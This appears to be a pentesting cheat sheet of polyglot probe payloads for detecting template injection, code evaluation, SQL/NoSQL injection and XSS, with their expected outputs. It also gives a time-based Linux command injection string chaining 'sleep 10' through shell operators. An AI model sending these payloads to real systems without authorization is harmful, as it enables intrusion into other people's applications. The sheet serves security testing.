 # Errors based/behaviour inferer

## PHP Numeric context for SSTi, evaluation, NoSQL, SQLi, XSS

`51201*3101.'><h1>@(\${{[%</h1>'` => `158774301`

## Other languages numeric context for SSTi, evaluation, NoSQL, SQLi, XSS

`51201*3101+'><h1>@(${{[%</h1>'` => `158774301`

## PHP String context for SSTi, evaluation, NoSQL, SQLi, XSS

``hello"."@(${{[%<%'**'><h1>asad2afdsd42sg</h1>`` => `' = hello@(\${{[%<%".">` && `" = hello'.'@(${{[%<%>`

## Other languages string context for SSTi, evaluation, NoSQL, SQLi, XSS

`hello"+"@(${{[%<%'**'><h1>asad2afdsd42sg</h1>` => `' = Generic Error Message (Fails to concat)` && `" = hello@(${{[%<%'**'> (Concats)`

`hello"%2b"%40(${{[%25<%25'**'><h1>asad2afdsd42sg</h1>`

## Context-Aware payload for OSCMDi in Linux

``$(sleep+10)+||+sleep+10+|+sleep+10;+sleep+10+%26%26+sleep+10+`sleep+10`";$(sleep+10)+`sleep+10`||+sleep+10+|+sleep+10;+sleep+10+%26%26+sleep+10"';sleep+10+%26%26sleep+10+||+sleep+10+|+sleep+10+`sleep+10`'``

``$(sleep 10) || sleep 10 | sleep 10; sleep 10 && sleep 10 `sleep 10`";$(sleep 10) `sleep 10`|| sleep 10 | sleep 10; sleep 10 && sleep 10"';sleep 10 && sleep 10 || sleep 10 | sleep 10 `sleep 10`'``
